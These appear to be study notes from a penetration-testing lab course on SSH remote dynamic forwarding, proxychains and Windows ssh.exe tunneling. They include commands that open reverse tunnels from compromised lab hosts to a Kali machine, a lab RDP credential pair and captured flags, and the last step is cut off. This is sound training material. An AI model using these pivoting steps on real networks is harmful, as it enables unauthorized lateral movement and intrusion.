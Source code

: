 - Setup SSH Dynamic Remote
```bash
# In CONFLUENCE01
ssh -N -R 4141 kali@192.168.45.196
```

- Configure proxychains and run the ssh_client against the port
```bash
# In Kali
sudo vim /etc/proxychains4.conf
	# Last line
	socks5 127.0.0.1 4141

proxychains ./ssh_remote_dynamic_client -i 10.4.228.64 -p 9062
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	Connecting to 10.4.228.64:9062
	[proxychains] Strict chain  ...  127.0.0.1:4141  ...  10.4.228.64:9062  ...  OK
	Flag: "OS{600ec97518b9df6c8b93adbe8b47b312}"
```


## sshuttle

[(see mats)](18%20-%20Port%20Redirection%20&%20SSH%20Tunneling.md#sshuttle)

## ssh.exe

1. Log in to MULTISERVER03 with the _rdp_admin_ credentials we found in the Confluence database (**rdp_admin:P@ssw0rd!**). Enumerate which port forwarding techniques are available, then use the Windows OpenSSH client to create a port forward that allows you to reach port 4141 on PGDATABASE01 from your Kali machine.

Download the **ssh_exe_exercise_client.bin** binary from **http://MULTISERVER03/umbraco/ssh_exe_exercise_client.bin** to your Kali machine, and run it against port 4141 on PGDATABASE01, through the port forward you create. Once a successful connection is made, the client will print the flag it gets from the server.

- Start SSH on Kali
```bash
sudo systemctl start ssh
```

- RDP into MULTISERVER03, download file, and start SSH Tunnel
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:rdp_admin /p:P@ssw0rd! /v:192.168.216.64 /w:1600 /h:800 /drive:test,/home/kali/exercises/forward_tunnel

# In cmd prompt in Win
ssh -N -R 4141 kali@192.168.45.204
```

- In Kali, check **proxychain4.conf** and exploit
```bash
sudo vim /etc/proxychain4.conf
	...
	[ProxyList]
	# add proxy here ...
	# meanwile
	# defaults set to "tor"
	# socks4        127.0.0.1 9050
	socks5 127.0.0.1 4141

proxychains ./ssh_exe_exercise_client.bin -i 10.4.216.215
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
```